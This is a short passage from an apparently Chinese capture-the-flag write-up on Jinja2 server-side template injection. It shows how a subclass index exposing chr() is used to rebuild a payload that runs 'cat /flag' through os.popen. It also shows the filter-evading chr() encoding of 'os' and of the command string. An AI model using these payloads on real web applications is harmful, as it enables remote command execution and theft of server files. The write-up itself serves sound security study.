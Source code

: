 ![在这里插入图片描述](img/0360b045d3a094463a9663f3affb4790.png)
这个爆破结果意味着`__subclasses__()[80]`中含有chr的类索引，即可以使用`chr()`

接下来把这一串`{%set+chr=[].__class__.__bases__[0].__subclasses__()[80].__init__.__globals__.__builtins__.chr%}`放到前面

原始payload是`{{ config.__class__.__init__.__globals__['os'].popen('cat /flag').read() }}`，接下来要用chr()进行替换，对照ascii表

```
'os'替换成chr(111)%2bchr(115)
'cat ../f*'替换成chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103) 
```
